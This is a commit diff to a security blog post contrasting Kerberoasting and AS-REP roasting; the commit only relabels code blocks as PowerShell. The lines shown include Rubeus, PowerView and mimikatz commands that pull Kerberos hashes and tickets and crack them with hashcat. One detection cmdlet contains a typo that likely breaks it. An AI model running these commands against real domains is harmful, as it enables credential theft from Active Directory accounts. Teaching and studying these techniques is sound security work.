

Before and after one commit to LuemmelSec/LuemmelSec.github.io, a Jekyll site: the page built from _posts/2020-12-11-Kerberoasting-VS-AS-REP-Roasting.md, in a window 1280 px wide and 1400 px high, scrolled down 4725 px. Shown: the whole window, without its empty margins (248-1031 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some of the changed text lies outside the part shown.

Commit message:
Update 2020-12-11-Kerberoasting-VS-AS-REP-Roasting.md

````diff
--- a/_posts/2020-12-11-Kerberoasting-VS-AS-REP-Roasting.md
+++ b/_posts/2020-12-11-Kerberoasting-VS-AS-REP-Roasting.md
@@ -57,11 +57,13 @@
 
 We can use [Rubeus](https://github.com/GhostPack/Rubeus) on a domain joined machine to find all accounts on that domain where **Do not require Kerberos preauthentication** is set and have it return the corresponding hashes. The **/format** option will directly give us output that is crackable with [hashcat](https://github.com/hashcat/hashcat).
 
-```Rubeus.exe asreproast /format:hashcat```
+```powershell
+Rubeus.exe asreproast /format:hashcat
+```
 
 The AS-REP hash can then be fed into hashcat for offline attacks i.e. with brute-force or wordlist attacks.
 
-```javascript
+```powershell
 hashcat64.exe -m 18200 '<AS_REP-hash>' -a 0 c:\wordlists\rockyou.txt
 ```
 
@@ -70,13 +72,13 @@
 
 To check which accounts in you environment have pre-authentication disabled, you can use the following powershell cmdlet, which should be available by default on domain joined machines:
 
-```javascript
+```powershell
 get-aduser -filter * -properties DoesNotRequirePreAuth | where {$._DoesNotRequirePreAuth -eq "True" -and $_.Enabled -eq "True"} | select Name
 ```
 
 Or you might want to run [PowerView](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1) in your powershell session and issue the Get-DomainUser cmdlet:
 
-```javascript
+```powershell
 Get-DomainUser -PreauthNotRequired -Properties distinguishedname -Verbose
 ```
 
@@ -107,20 +109,20 @@
 **Rubeus**
 The following attack will try to roast all users on the current domain leaving us with hashes in a crackable format for hashcat:
 
-```javascript
+```powershell
 Rubeus.exe kerberoast /format:hashcat
 ```
 
 **PowerView**
 We can get a list of all user accounts that have a **SPN** set:
 
-```javascript
+```powershell
 Get-DomainUser -SPN
 ```
 
 Afterwards we can fetch the hashes like so:
 
-```javascript
+```powershell
 Get-DomainSPNTicket -SPN <spn> -OutputFormat hashcat
 ```
 
@@ -129,19 +131,19 @@
 Having a look at the PowerView section above we are already able to query the desired **SPNs**.
 Next step is to query for the **ST** which can be done with two lines of powershell:
 
-```javascript
+```powershell
 Add-Type –AssemblyName System.IdentityModel
 New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken –ArgumentList ‘<SPN-name>:<SPN-port>’
 ```
 
 In order to extract the ticket from memory we use mimikatz:
-```javascript
+```powershell
 kerberos::list /export
 ```
 
 **hashcat**
 The output from Rubeus and PowerView can directly be feeded into hashcat:
-```javascript
+```powershell
 hashcat64.exe -m 18200 '<AS_REP-hash>' -a 0 c:\wordlists\rockyou.txt
 ```
 
````
